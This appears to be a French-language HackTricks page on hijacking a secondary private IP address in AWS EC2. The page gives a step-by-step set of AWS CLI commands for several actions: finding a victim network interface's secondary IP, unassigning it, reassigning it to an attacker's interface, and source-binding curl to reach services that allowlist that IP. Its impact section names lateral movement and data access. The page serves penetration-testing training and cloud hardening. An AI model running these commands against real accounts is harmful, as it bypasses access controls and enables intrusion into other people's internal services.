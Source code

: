 # AWS – EC2 ENI Secondary Private IP Hijack (Trust/Allowlist Bypass)

{{#include ../../../../banners/hacktricks-training.md}}

Abuser de `ec2:UnassignPrivateIpAddresses` et `ec2:AssignPrivateIpAddresses` pour voler l'IP privée secondaire d'un ENI victime et la déplacer vers un ENI attaquant dans le même subnet/AZ. De nombreux services internes et security groups restreignent l'accès à des IP privées spécifiques. En déplaçant cette adresse secondaire, l'attaquant usurpe l'hôte de confiance au niveau L3 et peut atteindre des services allowlistés.

Prérequis:
- Permissions : `ec2:DescribeNetworkInterfaces`, `ec2:UnassignPrivateIpAddresses` sur l'ARN de l'ENI victime, et `ec2:AssignPrivateIpAddresses` sur l'ARN de l'ENI attaquant.
- Les deux ENIs doivent être dans le même subnet/AZ. L'adresse cible doit être une IP secondaire (l'IP primaire ne peut pas être désassignée).

Variables:
- REGION=us-east-1
- VICTIM_ENI=<eni-xxxxxxxx>
- ATTACKER_ENI=<eni-yyyyyyyy>
- PROTECTED_SG=<sg-protected>   # SG on a target service that allows only $HIJACK_IP
- PROTECTED_HOST=<private-dns-or-ip-of-protected-service>

Étapes:
1) Choisir une IP secondaire de l'ENI victime
```bash
aws ec2 describe-network-interfaces --network-interface-ids $VICTIM_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[?Primary==`false`].PrivateIpAddress --output text | head -n1 | tee HIJACK_IP
export HIJACK_IP=$(cat HIJACK_IP)
```
2) Assurez-vous que l'hôte protégé n'autorise que cette IP (idempotent). Si vous utilisez des règles SG-to-SG à la place, ignorez cette étape.
```bash
aws ec2 authorize-security-group-ingress --group-id $PROTECTED_SG --protocol tcp --port 80   --cidr "$HIJACK_IP/32" --region $REGION || true
```
3) État de référence : depuis l'attacker instance, la requête vers PROTECTED_HOST devrait échouer sans spoofed source (p.ex., via SSM/SSH)
```bash
curl -sS --max-time 3 http://$PROTECTED_HOST || true
```
4) Retirer l'IP secondaire de l'ENI de la victime
```bash
aws ec2 unassign-private-ip-addresses --network-interface-id $VICTIM_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
5) Attribuer la même IP à l'ENI de l'attaquant (sur AWS CLI v1 ajoutez `--allow-reassignment`)
```bash
aws ec2 assign-private-ip-addresses --network-interface-id $ATTACKER_ENI   --private-ip-addresses $HIJACK_IP --region $REGION
```
6) Vérifier que la propriété a été transférée
```bash
aws ec2 describe-network-interfaces --network-interface-ids $ATTACKER_ENI --region $REGION   --query NetworkInterfaces[0].PrivateIpAddresses[].PrivateIpAddress --output text | grep -w $HIJACK_IP
```
7) Depuis l'instance attaquante, source-bind sur la hijacked IP pour atteindre l'hôte protégé (assurez-vous que l'IP est configurée sur l'OS ; si ce n'est pas le cas, ajoutez-la avec `ip addr add $HIJACK_IP/<mask> dev eth0`)
```bash
curl --interface $HIJACK_IP -sS http://$PROTECTED_HOST -o /tmp/poc.out && head -c 80 /tmp/poc.out
```
## Impact
- Contourner les listes d'autorisation d'IP et usurper des hôtes de confiance au sein du VPC en déplaçant les IP privées secondaires entre des ENIs dans le même subnet/AZ.
- Atteindre des services internes qui contrôlent l'accès par des IP source spécifiques, permettant un mouvement latéral et l'accès aux données.
{{#include ../../../../banners/hacktricks-training.md}}

